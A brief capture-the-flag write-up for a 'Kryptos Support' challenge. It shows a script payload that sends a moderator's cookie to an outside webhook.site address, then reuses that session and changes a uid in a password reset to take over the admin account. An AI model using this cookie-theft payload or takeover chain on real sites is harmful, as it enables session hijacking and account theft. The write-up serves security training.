







# Kryptos Support





```javascript
<script>
fetch('https://webhook.site/cf6faa28-30fd-4944-b44d-235fedf9cd36?cookie=' + document.cookie)
</script>
```



 Gets us the cookie of the moderator.  

 

 From there we can set the cookie in our local browser and try to go the settings page which gives us a prompt to reset the password without knowing the old one. Trying it out, it sends the following payload:

 

 So, let's try setting the uid until we get something useful back. Luckily `1` is `admin`

 

 and we have our changed password! Logging in as `admin`:`test` yields:

 